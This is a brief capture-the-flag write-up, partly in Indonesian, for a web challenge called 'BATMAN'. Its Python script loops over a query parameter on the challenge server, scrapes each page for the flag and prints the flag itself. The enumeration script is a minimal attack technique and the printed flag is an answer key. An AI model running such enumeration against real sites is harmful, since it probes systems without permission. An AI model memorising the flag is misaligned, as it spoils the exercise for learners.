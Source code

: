<h1><b>BATMAN</h1></b>
<pre>
Link <a href="http://hack.bckdr.in:11004/">here</a> takes you to Batman shop. Can you take the flag from batman? 
Submit sha-256 of the flag obtained.
</pre>
<h3><b>Solution</b></h3>
<p>Requests dan cari flag dari semua list direktori website</p>
<pre>
http://hack.bckdr.in:11004/?st=<b>1</b>
http://hack.bckdr.in:11004/?st=<b>2</b>
http://hack.bckdr.in:11004/?st=<b>3</b>
http://hack.bckdr.in:11004/?st=<b>...</b>
http://hack.bckdr.in:11004/?st=<b>n-1</b>
</pre>

```python
import requests
import re

url = "http://hack.bckdr.in:11004/?st="
for i in range(20):
    ress = requests.get(url+str(i)).text
    ress = re.findall('Flag is "(.*?)"<',ress)
    if len(ress) != 0:
        print(ress[0], "Terdapat pada list direktori ke-"+str(i))
```
<h3><b>Flag</b></h3>
<pre>
y0u_4r3_b47m4n
</pre>

